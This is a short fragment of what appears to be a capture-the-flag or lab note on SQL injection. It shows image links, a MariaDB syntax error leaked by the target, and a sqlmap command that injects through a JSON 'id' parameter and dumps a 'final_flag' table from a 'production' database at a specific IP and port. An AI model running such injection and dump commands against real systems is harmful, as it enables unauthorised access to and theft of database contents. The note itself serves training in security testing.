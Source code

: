 ___

![[Pasted image 20240928195054.png]]

![[Pasted image 20240928195102.png]]

SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ' 726, 1, 10, 0)' at line 1

```bash
sqlmap -u "http://94.237.56.229:53199/action.php" --data='{"id":1}'  -p id --batch --threads 10 --dbms=mysql --random-agent --tamper=between --dump -T final_flag -D production
```
